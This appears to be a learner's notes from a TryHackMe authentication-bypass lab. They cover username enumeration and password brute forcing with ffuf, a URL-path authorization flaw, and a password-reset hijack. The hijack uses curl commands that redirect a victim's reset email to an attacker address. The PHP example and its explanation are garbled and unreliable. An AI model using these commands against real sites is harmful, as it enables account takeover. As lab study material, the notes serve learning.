 Common flaws in authentication mechanism that allow bypassing.

# 1. Username enumeration
Very helpful practice when trying to find auth vulns is creating a list of valid usernames, which we'll use later in other tasks.
This is usually done through website error messages. For example: `An account with this username already exists` 
The ffuf tool uses a list of commonly used usernames to check against for any matches.
```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.56.253/customers/signup -mr "username already exists" > usernames.txt
```
`-X` - specify the HTTP method
`-d` - specify the data that will be sent.
`-H` - specify the content type header as form data.
`-u` - specify the URL.
`-mr` - specify the regex expression for successful enum.

## 2. Brute Force
With the valid usernames already listed, we can attempt to brute force the login page. This is an automated process that tries a list of commonly used passwords against one or a list of usernames.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.80.116/customers/login -fc 200
```
`-fc` - Ignores 200 codes, for when successful login returns 302 codes for example.

## 3. Logic Flaws in Authentication
A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

In cases where code checks specifically for an url path to check the users autorization, can exist errors like the one below:
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
Because the code is using three equals, it is looking for exact match which means requests using /adMin can bypass the privilege/authentication check.
--------
#### **Password Reset Process Overview**

- The app first asks for an **email**.
    
- If valid, it proceeds to ask for the **username**.
    
- The reset confirmation is sent to the **email entered in the first step** (or so it seems).
    

---

#### 2. **Vulnerability Type: Logic Flaw**

- **PHP `$_REQUEST`** merges data from both `$_GET`, `$_POST`, and `$_COOKIE`.
    
- If **`email` is passed both in GET and POST**, PHP gives **priority to POST** data.
    

---

#### 3. **Exploitation Steps**

- Step 1: Use a legitimate email in the **GET** parameter:  
    `?email=robert@acmeitsupport.thm`
    
- Step 2: Override the email using **POST data**:  
    `-d 'username=robert&email=attacker@hacker.com'`
    
- Outcome: Password reset email is sent to the **attacker's email** instead of the real user's.


### **Curl Commands Used**

- **Normal Request:**
    
    bash
    
    CopyEdit
    
    `curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert'`
    
- **Exploit Request (Overriding Email):**
    
    bash
    
    CopyEdit
    
    `curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert&email=attacker@hacker.com'`
    

---

### 📌 **Real-World Lessons**

- **Email-based password reset logic** can be tricked if the server uses `$_REQUEST` improperly.
    
- Always check for:
    
    - **Redundant parameters** (GET + POST with same name).
        
    - **Improper trust in user-controlled inputs** (e.g., trusting `$_REQUEST` without validation).
        
- **Logic flaws** don’t rely on technical exploits like buffer overflows but on **bad design**.